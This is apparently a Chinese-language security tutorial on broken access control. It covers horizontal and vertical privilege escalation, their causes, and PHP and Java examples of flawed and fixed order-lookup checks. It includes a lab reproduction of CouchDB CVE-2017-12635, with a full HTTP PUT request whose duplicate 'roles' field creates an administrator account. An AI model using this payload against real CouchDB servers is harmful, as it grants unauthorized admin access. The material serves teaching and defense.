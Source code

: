 ## 简介

越权访问（Broken Access Control，简称BAC）是Web应用程序中一种常见的漏洞，一般是指应用程序未对当前用户操作的身份权限进行严格校验，导致用户可以操作超出自己管理权限范围的功能，从而操作一些非该用户可以操作的行为。

## 应用场景

越权漏洞一般可以分为：垂直越权，水平越权两种

![img](README.assets/202004141716521652.png)

- **水平越权**

攻击者可以访问与他拥有相同权限的用户的资源，资源权限ID不变，资源归属ID改变；

攻击者尝试访问与他拥有相同权限的用户资源。例如，用户A和用户B属于同一角色，拥有相同的权限等级，他们能获取自己的私有数据（数据A和数据B），但如果系统只验证了能访问数据的角色，而没有对数据做细分或者校验，导致用户A能访问到用户B的数据（数据B），那么用户A访问数据B的这种行为就叫做水平越权访问。

![img](README.assets/202004141717441744.png)

- **垂直越权**

低级别攻击者可以访问高级别权限用户的资源，资源权限ID不变，资源归属ID改变；

低级别攻击者可以访问高级别权限用户的资源，资源权限ID改变，资源归属ID不变；

由于后台应用没有做权限控制，或仅仅在菜单、按钮上做了权限控制，导致恶意用户只要猜测其他管理页面的URL或者敏感的参数信息，就可以访问或控制其他角色拥有的数据或页面，达到权限提升的目的

![img](README.assets/20200414171806186.png)





## 产生原因

### 通过隐藏 URL

实现控制访问有些程序的管理员的管理页面只有管理员才显示，普通用户看不到，利用 URL 实现访问控制，但 URL 泄露或被恶意攻击者猜到后，这会导致越权攻击。

### 直接对象引用

这种通过修改一下参数就可以产生水平越权，例如查看用户信息页面 URL 后加上自己的 id 便可查看，当修改为他人的 ID 号时会返回他人的信息，便产生了水平越权。

### 多阶段功能

多阶段功能是一个功能有多个阶段的实现。例如修改密码，可能第一步是验证用户身份信息，号码验证码类的。当验证成功后，跳到第二步，输入新密码，很多程序会在这一步不再验证用户身份，导致恶意攻击者抓包直接修改参数值，导致可修改任意用户密码。

### 静态文件

很多网站的下载功能，一些被下载的静态文件，例如 pdf、word、xls 等，可能只有付费用户或会员可下载，但当这些文件的 URL 地址泄露后，导致任何人可下载，如果知道 URL 命名规则，则会便利服务器的收费文档进行批量下载

### 平台配置错误

一些程序会通过控件来限制用户的访问，例如后台地址，普通用户不属于管理员组，则不能访问。但当配置平台或配置控件错误时，就会出现越权访问。

## 漏洞复现

这里使用[CouchDB垂直越权](https://vulhub.org/#/environments/couchdb/CVE-2017-12635/)作为一个简单示例

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。
在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。
影响版本：小于 1.7.0 以及 小于 2.1.1

利用`docker-compose` 安装好环境，访问http://192.168.196.128:5984/_utils/#login，可以看见一个web登录页面

![image-20230613105236830](README.assets/image-20230613105236830.png)

发送如下数据包，其中secTest 可以修改为任意用户，不过需要和json中的name字段相同

```http
PUT /_users/org.couchdb.user:secTest HTTP/1.1
Host: 192.168.196.128:5984
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.196.128:5984/_utils/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: AuthSession=
If-Modified-Since: Sat, 02 Dec 2017 15:49:03 GMT
Content-Type: appliaction/json
Connection: close
Content-Length: 93

{
  "type": "user",
  "name": "secTest",
  "roles": ["_admin"],
  "password": "123456"
}
```

发现是被禁止的，只有管理员才能设置Role角色

![image-20230613105351361](README.assets/image-20230613105351361.png)

发送包含两个roles的数据包，即可绕过限制：

```http
PUT /_users/org.couchdb.user:secTest HTTP/1.1
Host: 192.168.196.128:5984
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.196.128:5984/_utils/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: AuthSession=
If-Modified-Since: Sat, 02 Dec 2017 15:49:03 GMT
Content-Type: appliaction/json
Connection: close
Content-Length: 109

{
  "type": "user",
  "name": "secTest",
  "roles": ["_admin"],
  "roles": [],
  "password": "123456"
}
```

成功创建管理员，账户为secTest，密码为123456

![image-20230613105445934](README.assets/image-20230613105445934.png)

再次访问http://192.168.196.128:5984/_utils/，输入账户`secTest`密码`123456`，可以成功登录：

![image-20230613105458933](README.assets/image-20230613105458933.png)

## 代码举例

### 0x1 PHP

> [!WARNING]错误示例
>
> 查看订单接口部分代码

![image-20230613105801387](README.assets/image-20230613105801387.png)

在上面的代码中，可以看到通过对`orderID` 进行带入数据库进行查询，但是并未对用户权限进行校验，未判断当前用户是否拥有查看该订单信息的权限，当攻击者遍历`orderID`则可以获取所有的订单信息<span style="color:red">（包括不是自己的订单）</span>

> [!TIP]正确示例

![image-20230613110238242](README.assets/image-20230613110238242.png)

正确的做法是如上面代码，可以看到，对当前的`orderID`，以及用户的`sessionID`进行关联，当查看当前用户的订单id时，在数据库中，若没有`sessionID`与`OrderID`没有对应起来，那么是无法查询到的，也就对权限进行校验了（只不过在校验的本质还是在数据库中）。

### 0x2 JAVA

> [!WARNING]错误示例
>
> 查看订单接口部分代码

![image-20230613111926981](README.assets/image-20230613111926981.png)

> [!TIP]正确示例

![image-20230613111948995](README.assets/image-20230613111948995.png)



## 参考链接

https://www.freebuf.com/company-information/233800.html

https://zhuanlan.zhihu.com/p/130919069

https://vulwiki.readthedocs.io/zh_CN/latest/web/yuequan/

